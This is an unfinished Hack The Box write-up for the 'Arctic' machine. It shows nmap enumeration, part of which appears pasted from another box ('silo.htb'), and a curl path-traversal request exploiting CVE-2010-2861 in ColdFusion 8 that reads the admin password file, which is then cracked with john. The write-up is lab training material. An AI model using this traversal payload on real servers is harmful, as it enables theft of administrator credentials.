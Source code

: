 # Arctic (`10.10.10.11`)

## Summary

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -p- --min-rate 10000 -Pn arctic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.059s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.95 seconds

$ sudo nmap -A -v -p 135,8500,49154 -Pn -oA allports silo.htb
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for silo.htb (10.10.10.82)
Host is up.

PORT      STATE    SERVICE VERSION
135/tcp   filtered msrpc
8500/tcp  filtered fmtp
49154/tcp filtered unknown
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

NSE: Script Post-scanning.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.12 seconds
           Raw packets sent: 144 (9.456KB) | Rcvd: 0 (0B)
```

### Port 8500

![](img/2020-10-12-04-28-46.png)

Looks like an `Adobe Coldfusion 8` install.

![](img/2020-10-12-04-57-15.png)

![](img/2020-10-12-05-00-09.png)

I use `CVE-2010-2861` to extract the password, using an exploit found here: https://www.exploit-db.com/exploits/14641

```bash
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

$ curl http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![](img/2020-10-12-05-14-23.png)

![](img/2020-10-12-05-15-41.png)

I feed the hashed password to `john` to crack it.

![](img/2020-10-12-05-27-01.png)

![](img/2020-10-12-05-26-47.png)

`admin:happyday` should let me in.

![](img/2020-10-12-05-31-22.png)

It does.

![](img/2020-10-12-05-32-19.png)

![](img/2020-10-12-05-36-24.png)

I generate a reverse shell.

![](img/2020-10-12-05-31-41.png)

And give up on this machine because it's timing out.

## Reverse Shell

## Upgrading Shell

## Privilege Escalation
